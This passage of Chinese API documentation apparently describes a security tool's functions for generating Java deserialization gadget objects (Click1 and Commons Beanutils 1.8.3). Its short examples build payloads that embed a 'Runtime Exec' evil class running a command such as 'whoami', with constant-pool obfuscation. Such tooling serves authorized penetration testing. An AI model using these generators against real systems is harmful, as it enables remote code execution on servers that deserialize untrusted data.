 用户可以通过可变参数`options`提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

这些函数允许用户定制生成的Java对象的特定属性或行为。

options：用于配置Java对象的可变参数函数列表。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = &#34;whoami&#34;
className = &#34;KEsBXTRS&#34;
gadgetObj,err = yso.GetClick1JavaObject(

	yso.useRuntimeExecEvilClass(command),
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className),
	)

```


#### 定义

`GetClick1JavaObject(options ...GenClassOptionFun) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetCommonsBeanutils183NOCCJavaObject

#### 详细描述
GetCommonsBeanutils183NOCCJavaObject 基于Commons Beanutils 1.8.3 序列化模板生成并返回一个Java对象。

去除了对 commons-collections:3.1 的依赖。

通过可变参数`options`，用户可以提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

这些函数使用户能够定制生成的Java对象的特定属性或行为。

options：用于配置Java对象的可变参数函数列表。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = &#34;whoami&#34;
className = &#34;KEsBXTRS&#34;
gadgetObj,err = yso.GetCommonsBeanutils183NOCCJavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```
